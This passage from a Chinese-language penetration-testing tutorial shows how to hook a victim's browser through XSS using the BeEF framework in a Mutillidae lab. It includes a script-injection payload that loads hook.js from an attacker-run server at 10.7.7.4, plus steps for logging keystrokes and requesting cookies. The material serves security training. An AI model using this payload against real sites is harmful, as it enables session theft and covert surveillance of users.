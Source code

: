 您可以看到，由于密钥在客户机中缓冲并以固定的间隔发送，因此存在由逗号分隔的不同长度的组，不可打印的密钥按名称写入：`ArrowLeft`、`ArrowRight`、`Backspace`、`Home`、`End`等等。

# 使用 XSS 控制用户的浏览器

一种称为**浏览器中人**（**MITB**的攻击使用 JavaScript 将用户的浏览器连接到**命令和控制**（**C2**服务器，该服务器使用脚本向浏览器发出命令并从中收集信息。XSS 可以作为一种工具，让用户在访问易受攻击的应用程序时加载这样的脚本。攻击者可以执行以下操作：

*   读击键
*   提取保存在浏览器中的密码
*   读取 cookie 和 HTML5 存储
*   启用麦克风和网络摄像头（可能需要用户交互）
*   利用浏览器漏洞
*   使用浏览器作为组织内部网络的轴心
*   控制浏览器选项卡和窗口的行为
*   安装恶意浏览器扩展

Kali Linux 包括**浏览器攻击框架**（**BeEF**），这是一种工具，用于设置托管 C2 中心的 web 服务器以及 MITB 攻击中受害者调用的钩子代码。

接下来，我们将演示攻击者如何使用 XSS 让客户端（用户的浏览器）调用该钩子文件，以及如何使用该钩子文件在此类浏览器上远程执行操作：

1.  首先，您需要在 Kali Linux 中启动`beef-xss`服务。这可以通过应用程序菜单：应用程序| 13-社会工程工具| xss 框架，或通过终端完成，如下所示：

```
      beef-xss
```

![](../images/00181.jpeg)

如果服务正确启动，您应该能够浏览到控制面板。默认情况下，BeEF 在端口`3000`上运行，因此浏览到[`http://127.0.0.1:3000/ui/panel`](http://127.0.0.1:3000/ui/panel)并使用默认用户名和密码`beef`/`beef`登录，如下图：

![](../images/00182.jpeg)

2.  攻击者的下一步是利用持久性 XSS 进行攻击，或诱骗用户单击指向恶意站点或易受 XSS 攻击的站点的链接。

现在，作为受害者，转到 Mutillidae（OWASP 2013 | A3-跨站点脚本（XSS）|反射（一阶）| DNS 查找）并在主机名/IP 文本框中提交以下内容：

```
      <script src="http://10.7.7.4:3000/hook.js"></script> 
```

![](../images/00183.jpeg)

3.  同样，`10.7.7.4`是运行 BeEF 的服务器的地址。在本例中，您的 Kali Linux 机器。您可以看到结果显示为空，但如果您浏览到牛肉控制面板，您将看到您连接了一个新浏览器。在“详细信息”选项卡中，您可以看到有关此浏览器的所有信息：

![](../images/00184.jpeg)

4.  如果转到当前浏览器中的“日志”选项卡，您将看到挂钩记录用户在浏览器中执行的所有操作，从单击和击键到更改窗口或选项卡：

![](../images/00185.jpeg)

5.  在“命令”选项卡中，可以向受害者浏览器发出命令。例如，在以下屏幕截图中，请求了一个 cookie：

![](../images/00186.jpeg)

